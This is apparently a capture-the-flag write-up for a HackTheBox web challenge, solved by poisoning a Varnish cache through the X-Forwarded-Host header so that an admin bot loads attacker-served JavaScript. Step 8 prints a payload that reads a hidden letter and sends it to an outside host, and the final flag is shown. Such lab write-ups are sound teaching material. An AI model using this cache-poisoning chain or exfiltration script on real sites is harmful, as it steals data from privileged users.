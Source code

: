 
## I have added an automation GO script


## wrietup

we have a site that you leave letters , and our flag is in on of this letters (letter 3 specfic) but it need an admin auth to see it
![Screenshot_84](https://github.com/kiro6/writeups/assets/57776872/372cfff9-ba16-4a15-9777-20847650d793)

project structre 
```
.
├── build-docker.sh
├── challenge
│   ├── index.js
│   ├── package.json
│   ├── routes
│   │   └── routes.js
│   ├── static
│   │   ├── background.png
│   │   ├── favicon.ico
│   │   ├── main.css
│   │   ├── main.js
│   │   ├── queen.svg
│   │   ├── sign-post.png
│   │   └── viewletter.js
│   ├── utils
│   │   ├── authorisation.js
│   │   ├── bot.js
│   │   └── database.js
│   └── views
│       ├── base.html
│       ├── index.html
│       ├── letter.html
│       └── viewletters.html
├── config
│   ├── cache.vcl
│   └── supervisord.conf
└── Dockerfile
```

i will mention the most important parts to solve the challenge 

## cache.vcl
in Varnish Configuration , the cache based on url and host header
```vcl
sub vcl_hash {
    hash_data(req.url);

    if (req.http.host) {
        hash_data(req.http.host);
    } else {
        hash_data(server.ip);
    }

    return (lookup);
}
```

## routs.js
in `/` and `/letters` cdn can be controlled by the user  
```js
router.get("/", (req, res) => {
    return res.render("index.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});

router.get("/letters", (req, res) => {
    return res.render("viewletters.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});
```

- when the submit func `visit` is called from `bot.js`
- `/submit` endpoint take json object contain message attribute
```js
router.post("/submit", async (req, res) => {
    const { message } = req.body;

    if (message) {
        return db.insertMessage(message)
            .then(async inserted => {
                try {
                    botVisiting = true;
                    await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
                    botVisiting = false;
                }
                catch (e) {
                    console.log(e);
                    botVisiting = false;
                }
                res.status(201).send(response(inserted.lastID));
            })
            .catch(() => {
                res.status(500).send(response('Something went wrong!'));
            });
    }
    return res.status(401).send(response('Missing required parameters!'));
});
```



message endpint used to get other letters
```js
router.get("/message/:id", async (req, res) => {
    try {
        const { id } = req.params;
        const { count } = await db.getMessageCount();
        const message = await db.getMessage(id);

        if (!message) return res.status(404).send({
            error: "Can't find this note!",
            count: count
        });

        if (message.hidden && !isAdmin(req))
            return res.status(401).send({
                error: "Sorry, this letter has been hidden by the easter bunny's helpers!",
                count: count
            });

        if (message.hidden) res.set("Cache-Control", "private, max-age=0, s-maxage=0 ,no-cache, no-store");

        return res.status(200).send({
            message: message.message,
            count: count,
        });
    } catch (error) {
        console.error(error);
        res.status(500).send({
            error: "Something went wrong!",
        });
    }
});
```
## bot.js

on every submit to a letter a bot is visiting the last submttied letter
```js
const puppeteer = require('puppeteer');

const browser_options = {
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
        '--js-flags=--noexpose_wasm,--jitless'
    ],
};

const visit = async(url, authSecret) => {
    try {
        const browser = await puppeteer.launch(browser_options);
        let context = await browser.createIncognitoBrowserContext();
        let page = await context.newPage();

        await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });

        await page.goto(url, {
            waitUntil: 'networkidle2',
            timeout: 5000,
        });
        await page.waitForTimeout(3000);
        await browser.close();
    } catch (e) {
        console.log(e);
    }
};

module.exports = visit;
```

# Steps 
1) i found out that `X-Forwarded-Host` i accepted and reflected on `/` and `/letters`
2) we can cache posion the server , send him `X-Forwarded-Host: My_Server` 
3) set `Host: 127.0.0.1` to make the cache server map it to the server ip , so when the bot in `bot.js` visit it it will be served the poioned cache
4) use the url with id paramter potiong to the next letter will be added while poioning the cache , here used `/letters?id=15` because i will add it later
![Screenshot_80](https://github.com/kiro6/writeups/assets/57776872/eb5e22d1-5b40-407a-8649-78bfe904a7e7)

5) now every request for a url in the frontend use absloute path like `/viewletter.js` and `main.js` will be requsted as `http://My_Server/viewletter.js`

6) submit a new letter
 ![Screenshot_81](https://github.com/kiro6/writeups/assets/57776872/d39b231e-641d-491e-a1f9-2be6467135db)

7) now the bot visted `/letters?id=15` which we posioned later
8) the bot will request `/viewletter.js` which we serve in our server as
```js
fetch("http://127.0.0.1:80/message/3").then((r) => {
    return r.text();
}).then((data)=>{
fetch("https://htbsolver.server/"+btoa(data) )
})
```
9) the script executed in the bot and send use the result
![Screenshot_85](https://github.com/kiro6/writeups/assets/57776872/1554bc0c-30a0-461e-bd36-922a4bacfc60)
10) decode the base64 to get the flag
```
{"message":"Dear Easter Bunny, Santa's better than you! HTB{7h3_3as7er_bunny_h45_b33n_p0150n3d!}","count":15}
```
